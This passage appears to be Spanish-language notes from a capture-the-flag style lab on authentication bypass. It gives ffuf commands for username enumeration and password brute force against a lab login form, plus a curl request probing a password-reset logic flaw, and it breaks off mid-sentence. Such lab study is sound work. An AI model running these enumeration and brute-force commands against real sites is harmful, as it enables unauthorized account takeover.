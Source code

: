 Si intentamos usar el username "admin" y poner otros con información fake, veremos errores como "an account with this username alredy exit" sabiendo eso podemos ir haciendo listas validas

```
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.225.254/customers/signup -mr "username already exists"
```

- -w : lista de usuarios
- -X : meotod de consulta "POST"
- -d : meotodo para enviar.
- FUZZ
- -H : añadir headers adicionales
- Content-Type : mandamos datos
- -u : url
- -mr : argumento para validar si encontramos usuarios validos.

## POR FUERZA BRUTA

Ahora usaremos el ataque por fuerza bruta. (Es lo mismo pero con un txt mas duro)

```
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.225.254/customers/login -fc 200
```

![image](https://github.com/user-attachments/assets/21c613f2-027b-4129-84b4-c2d15ca92372)

## LÓGICA POR DEFECTO

Aveces los procesos de autenticación tienen una lógica. Es cuando la tipica ruta logica en la aplicación se puede hacer un bypass, o manipularla. Esto existe en todas las webs

![image](https://github.com/user-attachments/assets/5d2a27f1-5888-4cae-971f-e088ef272d43)

### EJEMPLO

El código de bajo chekea que el usuario empieza desde una ruta exacta /admin 

```
if( url.substr(0,6) === '/admin') {
    # Code to check user is an admin
} else {
    # View Page
}
```

Porque el codigo PHP usa === esto hace para que sea el match exacto, incluyendo la misma letra. El codigo presenta una logica porque la unatenticación de usuario /adMin no te dara privilegios y la pagina se displayeara.

```
curl 'http://10.10.225.254/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```
En la aplicacion la cuenta del usuario le devuelve una consulta, pero luego el código tiene un $_Request
